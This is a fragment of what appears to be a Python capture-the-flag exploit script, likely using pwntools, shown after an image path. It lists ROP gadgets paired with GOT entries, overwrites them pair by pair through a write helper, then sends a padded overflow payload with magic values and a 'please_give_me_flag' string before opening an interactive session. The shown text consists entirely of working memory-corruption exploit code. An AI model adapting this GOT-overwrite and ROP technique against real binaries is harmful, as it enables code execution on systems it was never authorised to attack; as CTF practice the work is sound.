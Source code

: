 ```python
    lea_rdi_rsp, strlen_got,    
    double_call_gets,memcpy_got,
    mov_rax_rsp_40, strrchr_got,
    add_rsp_a_lot,strcasecmp_got,
    lea_rdi_rsp2, wcscmp_got, 
    syscall,stpcpy_got,

    gets,memmove_got,
    0]
writes=writes[::-1]

i=0
while i < len(writes)-1:
    do_write(writes[i],writes[i+1])
    i+=2

p2 = b"C"*0x28
p2 += p64(0x5add011)
p2 += b"D"*(0xe0-(8*4))
p2 += p64(0x6942069420)
p2 += p64(2)
p2 += p64(3)
p2 += b"A"*5
p2 += b"please_give_me_flag\x00"

io.sendline(p2)
io.interactive()
```